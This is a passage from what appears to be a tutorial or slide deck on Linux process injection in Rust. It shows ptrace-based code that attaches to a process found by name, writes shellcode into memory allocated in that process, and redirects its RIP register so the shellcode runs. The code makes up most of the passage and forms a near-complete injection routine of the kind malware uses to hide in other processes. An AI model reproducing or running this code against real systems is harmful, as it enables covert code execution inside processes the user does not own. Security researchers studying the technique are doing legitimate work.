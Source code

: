 ```rust
            }

            address += 8;
        }
    }

    Ok(())
}
```

--- #21

# Executing, Execute, Execute!

Now the easy part, We just need to set the `RIP` register to the address of the shellcode and the target process will execute the shellcode.

```rust
fn execute_shellcode_at_address(address: u64, pid: pid_t) -> Result<(), std::io::Error> {
    unsafe {
        let mut regs: user_regs_struct = std::mem::zeroed();
        ptrace(PTRACE_GETREGS, pid, NULL_PTR, &regs);
        ptrace(PTRACE_POKETEXT, pid, regs.rax as *mut libc::c_void, address - 2);
        regs.rip = address + 8 + 2; // +2 to skip the SYSCALL instruction
        println!("Setting RIP to 0x{:x}", regs.rip);
        ptrace(PTRACE_SETREGS, pid, NULL_PTR, &regs);
    }
    Ok(())
}
```

--- #22

# Putting it all together

The code in GitHub has full error handling in the `main()` function. For brevity the code here does not.

```rust
fn main() {
    let pid = get_process_id_by_name(PROCESS_NAME).unwrap();
    unsafe {
        ptrace(PTRACE_ATTACH, pid, NULL_PTR, NULL_PTR);
        waitpid(pid, std::ptr::null_mut(), 0);
    }

    let address = allocate_remote_memory(pid, shellcode.len()).unwrap();
    write_shellcode(pid, address, &shellcode).unwrap();
    execute_shellcode_at_address(address, pid).unwrap();

    unsafe {
        ptrace(PTRACE_DETACH, pid, NULL_PTR, NULL_PTR);
    }
}
```
